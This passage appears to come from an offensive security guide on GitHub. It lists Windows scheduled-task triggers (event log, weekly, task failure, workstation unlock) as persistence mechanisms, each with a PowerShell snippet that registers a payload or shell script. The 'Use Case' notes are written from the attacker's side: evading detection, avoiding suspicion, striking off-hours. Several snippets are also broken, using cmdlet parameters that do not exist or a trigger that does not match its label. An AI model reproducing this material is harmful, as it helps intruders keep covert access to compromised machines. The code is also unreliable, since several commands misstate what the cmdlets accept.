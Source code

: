 #### Trigger on Specific Event (Event Log Trigger)
   - Description: This trigger is activated when a specific event occurs in the event log, such as a service failure, or an authentication failure.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\payload.ps1"
     $trigger = New-ScheduledTaskTrigger -AtLogon
     $eventTrigger = New-ScheduledTaskTrigger -LogonType "LocalSystem" -Subscription "Event[System[(EventID=4625)]]"
     Register-ScheduledTask -Action $action -Trigger $eventTrigger -TaskName "EventTriggerTask" -Description "Triggered on Failed Login"
     ```
   - Use Case: Triggering based on an event (e.g., failed login attempts) allows for a more advanced and stealthy persistence mechanism, executing the payload only when specific conditions are met.

#### Weekly Trigger
   - Description: Triggers the task weekly, on specific days of the week. This task could be configured to run outside of business hours to avoid suspicion.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to/weekly_task.ps1"
     $trigger = New-ScheduledTaskTrigger -Weekly -DaysOfWeek "Sunday" -At "2:00AM"
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "WeeklyTask" -Description "Weekly Maintenance Task"
     ```
   - Use Case: A weekly task can be used to schedule persistence actions on days and times that system administrators may not be as vigilant, such as during weekends or off-peak hours.

#### Trigger on Task Failure
   - Description: Create a task that only runs after a specific task fails. This could be combined with other administrative tasks or antivirus tasks to evade detection.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\path\to\failback.bat"
     $trigger = New-ScheduledTaskTrigger -AtTaskFailure "OtherTaskName"
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "FailbackTask" -Description "Fallback on Task Failure"
     ```
   - Use Case: By executing a payload when another critical task fails (e.g., antivirus or system maintenance tasks), attackers can ensure fallback persistence mechanisms, allowing their payload to activate if the system becomes compromised.

#### Trigger on Workstation Unlock
   - Description: Trigger a task each time the workstation is unlocked. This trigger can be used to reactivate malicious code after periods of inactivity.
   - PowerShell Command:
     ```powershell
     $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\path\to\shell.ps1"
     $trigger = New-ScheduledTaskTrigger -AtLogon -User "DOMAIN\User"
     Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "UnlockShellTask" -Description "Payload on Workstation Unlock"
     ```
   - Use Case: Perfect for scenarios where an attacker wants to regain access as soon as a legitimate user returns to their machine and unlocks it, providing a persistence mechanism tied to user activity.
